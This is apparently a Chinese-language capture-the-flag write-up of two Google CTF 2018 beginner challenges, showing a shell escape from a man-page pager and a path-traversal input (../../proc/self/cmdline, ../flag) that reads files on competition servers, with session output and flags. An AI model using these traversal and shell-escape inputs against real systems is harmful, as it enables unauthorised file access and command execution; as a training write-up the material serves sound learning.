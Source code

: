 # Google Capture The Flag 2018 (Quals)


## Beginner's Quest - Moar
> Description:
>
> Finding yourself on the Foobanizer9000, a computer built by 9000 foos, this computer is so complicated luckily it serves manual pages through a network service. As the old saying goes, everything you need is in the manual.
>
> nc moar.ctfcompetition.com 1337

連上去可以看到他是 man socat 給我們
![image](img/mbWS7jS.png)

可以在 man 的環境下，下指令 `!command`

所以可以
```
!ls -al /home/moar
total 24
drwxr-xr-x 2 nobody nogroup 4096 Jun 22 08:36 .
drwxr-xr-x 3 nobody nogroup 4096 Jun 14 14:17 ..
-rw-r--r-- 1 nobody nogroup  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 nobody nogroup 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 nobody nogroup  655 May 16  2017 .profile
-r-xr-xr-x 1 nobody nogroup  118 Jun 22 07:58 disable_dmz.sh

!cat /home/moar/disable_dmz.sh
#!/bin/sh
echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
```

這樣就得到 flag 了


## Beginner's Quest - Admin UI
> Description:
>
> The command you just found removed the Foobanizer 9000 from the DMZ. While scanning the network, you find a weird device called Tempo-a-matic. According to a Google search it's a smart home temperature control experience. The management interface looks like a nest of bugs. You also stumble over some gossip on the dark net about bug hunters finding some vulnerabilities and because the vendor didn't have a bug bounty program, they were sold for US$3.49 a piece. Do some black box testing here, it'll go well with your hat.

> $ nc mngmnt-iface.ctfcompetition.com 1337

先連上去，這裡選第二個，然後問你要執行的文件名稱，亂打 file 這裡說沒找到
```
root@solymx:~# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
file
Error: No such file or directory
```

我們知道 `/proc/self/cmdline` 會記錄該 process 的完整執行命令行，所以改成
```
root@solymx:~# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../../../../../../proc/self/cmdline
./main
```

這邊我們知道他本地是執行 `./main` ，我們下次執行 ../main 就可以得到整個 binary ，可以參考資料夾下的 elf

之後再丟到 ida pro，可以看到他的 password 是去 flag 拿
```
void __cdecl primary_login()
{
  char buf2[128]; // [rsp+0h] [rbp-110h]
  char buf[128]; // [rsp+80h] [rbp-90h]
  int fd; // [rsp+10Ch] [rbp-4h]

  puts("Please enter the backdoo^Wservice password:");
  fd = open("flag", 0);
```

所以我們可以在連上去 選 2 和檔案是 ../flag
```
root@solymx:/tmp/p# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```





